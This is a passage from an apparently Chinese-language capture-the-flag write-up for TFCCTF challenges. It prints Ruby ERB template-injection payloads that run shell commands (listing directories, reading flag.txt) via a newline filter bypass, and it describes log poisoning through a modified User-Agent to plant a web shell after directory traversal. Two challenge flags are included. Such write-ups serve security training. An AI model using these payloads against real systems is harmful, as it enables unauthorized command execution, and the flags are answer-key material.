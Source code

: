 所以使用%0a换行符绕过，成功![image-20220801132407100](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208011324176.png?x-oss-process=hzy)

```
<%= IO.popen('ls /').readlines()  %>
<%= IO.popen('ls -a ./').readlines()  %>
<%= IO.popen('cat ./flag.txt').readlines()  %>
```

![image-20220801132933516](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208011329593.png?x-oss-process=hzy)

![image-20220801132958869](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208011329935.png?x-oss-process=hzy)

![image-20220801133030685](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208011330760.png?x-oss-process=hzy)

TFCCTF{02718f35dddc266e0ac40c0c0dcc98c34edd545678dc752ba9831b6d73bc706f}

## INCLUDE WHAT MATTERS.

> Flag Format : TFCCTF{}
> The flag file has a random name and it's in a random location .

![image-20220801133235556](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208011332609.png?x-oss-process=hzy)

目录穿越

![image-20220801133352871](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208011333940.png?x-oss-process=hzy)

查看日志

![image-20220801133454063](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208011334147.png?x-oss-process=hzy)

这个是考察日志攻击种马，bp抓包改UA

![image-20220801134212150](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208011342234.png?x-oss-process=hzy)



![image-20220801134522392](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208011345471.png?x-oss-process=hzy)

种马成功，直接执行命令得到flag

![image-20220801134643742](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208011346814.png?x-oss-process=hzy)

![image-20220801134700423](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208011347498.png?x-oss-process=hzy)

TFCCTF{LF1_1S_D4NG3R0US_4ND_L34DS_T0_RC3}

# CRYPTO

## BASIC
